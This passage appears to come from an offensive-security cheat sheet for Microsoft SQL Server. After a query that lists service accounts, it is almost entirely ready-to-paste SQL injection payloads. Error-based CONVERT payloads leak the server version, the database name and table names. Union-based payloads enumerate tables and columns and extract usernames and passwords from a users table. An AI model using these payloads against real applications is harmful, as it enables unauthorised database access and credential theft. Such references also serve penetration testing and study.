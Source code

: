     ```sql
    SELECT servicename, service_account
    FROM sys.dm_server_services;
    ```

#### SQL Injection

**Error-Based Payloads**

*   **Version Information:** Retrieves the MSSQL version, causing a conversion error.

    ```c
    ' AND 1=CONVERT(int, @@version) -- -
    ```
*   **Database Name:** Extracts the current database name by forcing a conversion error.

    ```c
    ' AND 1=CONVERT(int, DB_NAME()) -- -
    ```
*   **Table Name Extraction:** Generates an error while attempting to retrieve the first table name.

    ```c
    ' AND 1=CONVERT(int,(SELECT TOP 1 name FROM sysobjects WHERE xtype='U')) -- -
    ```
*   **Data Type Mismatch:** Forces a type mismatch error by trying to convert a string to an integer.

    ```c
    ' AND 1=CONVERT(int, 'A') -- -
    ```

**Union-Based SQLi**

*   **Database Version:** Retrieves the SQL Server version.

    ```c
    ' UNION SELECT NULL, @@version -- -
    ```
*   **Database Name:** Extracts the current database name.

    ```c
    ' UNION SELECT NULL, DB_NAME() -- -
    ```
*   **Table Name Enumeration:** Lists the names of all user-defined tables.

    ```c
    ' UNION SELECT NULL, name FROM sysobjects WHERE xtype='U' -- -
    ```
*   **Column Name Enumeration:** Retrieves the column names for a specified table.

    ```c
    ' UNION SELECT NULL, name FROM syscolumns WHERE id=OBJECT_ID('users') -- -
    ```
*   **User Data Extraction:** Extracts usernames and passwords from the `users` table.

    ```c
    ' UNION SELECT NULL, username, password FROM users -- -
    ```
